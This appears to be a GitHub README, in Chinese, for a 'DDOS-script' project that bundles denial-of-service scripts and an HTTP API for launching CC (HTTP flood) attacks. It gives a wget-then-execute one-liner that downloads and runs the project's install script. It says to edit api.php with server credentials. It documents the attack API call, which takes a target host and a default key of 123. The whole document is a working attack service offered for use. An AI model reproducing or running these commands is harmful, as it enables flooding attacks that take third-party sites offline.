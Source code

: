 # DDOS-script
本项目包含了多个DDOS脚本,并可以实现通过API调用实现CC攻击

使用方法:

系统要求:centos6+

运行指令: wget https://raw.githubusercontent.com/jasonBrom/DDOS-script/master/install.sh&&chmod 755 install.sh&&./install.sh

运行完成后 vi /var/www/html/api.php 将文件中的服务器IP用户名和密码,修改成当前服务器密码和用户名

API调用方法:
http://服务IP地址/api.php?key=Key(默认123可自行在api.php中修改)&host=目标地址&method=CC

暂时API仅支持CC攻击(其他脚本可自行下载使用，暂不提供API支持)

